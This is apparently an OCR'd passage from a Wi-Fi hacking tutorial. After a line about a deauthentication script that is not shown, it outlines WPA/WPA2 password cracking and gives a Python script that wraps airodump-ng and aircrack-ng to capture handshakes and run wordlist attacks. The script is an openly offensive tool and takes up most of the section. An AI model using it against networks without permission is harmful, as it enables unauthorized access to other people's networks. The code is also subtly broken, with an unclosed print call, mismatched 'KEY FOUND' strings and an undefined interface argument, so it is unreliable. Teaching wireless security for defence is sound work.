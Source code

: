 
This script sends deauthentication packets to a specified client MAC address, pretending to be from the access point. This can disconnect the client from the network. 

```ad-note
Note: Running deauthentication attacks without permission is illegal in many jurisdictions and can disrupt network services. This script is for educational purposes only.
```

##### Cracking WPA/WPA2 Passwords with Python
----

Cracking WPA/WPA2 passwords typically involves capturing a handshake and then using a wordlist to try to determine the password. Here's a high-level overview of the process:


```ad-summary
1. Put the wireless interface into monitor mode 
2. Capture the WPA handshake 
3. Use a tool like `aircrack-ng` to attempt to crack the password
```

While it's possible to implement parts of this process in Python, many of the steps require low-level access to the network interface that's easier to achieve with specialized tools. However, we can use Python to automate the process of running these tools. Here's a script that demonstrates how you might use Python to automate the password cracking process using `aircrack-ng`:

```python
import subprocess
import os
import argparse
from pyfiglet import figlet_format


# Function to capture the handshake:

def capture_handshake(interface, bssid, channel, output_file):
    print(f'Capturing handshake for {bssid} on channel {channel}')
    cmd = f"airodump-ng -c {channel} --bssid {bssid} -w {output_file} {interface}"
    subprocess.run(cmd, shell=True)


# Cracking the password:

def crack_password(handshake_file, wordlist):
    print(f'Attempting to crack password...')
    cmd = f'aircrack-ng {handshake_file} -w {wordlist}'
    result = subprocess.run(cmd, shell=True, capture_output=True, text=True)
    
    if "KEY_FOUND" in result.stdout:
        password = result.stdout.split("KEY FOUND![ ")[1].split(" ]")[0]
        print(f'[+] Password cracked: {password}')
    else:
        print(f'[-] Password not found in wordlist.'

def main():
    # Setting ASCII art
    ascii_art = figlet_format('WPA cracker', font='slant')
    print(ascii_art)

    # Argument parsing
    parser = argparse.ArgumentParser(description='Simple WPA/WPA2 password cracker')
    parser.add_argument('-b', '--bssid', type=str, required=True, help='The target bssid')
    parser.add_argument('-c', '--channel', type=str, required=True, help='Channel')
    parser.add_argument('-o', '--output', type=str, required=True, help='Output file')
    parser.add_argument('-w', '--wordlist', type=str, required=True, help='Wordlist file path')
    args = parser.parse_args()

```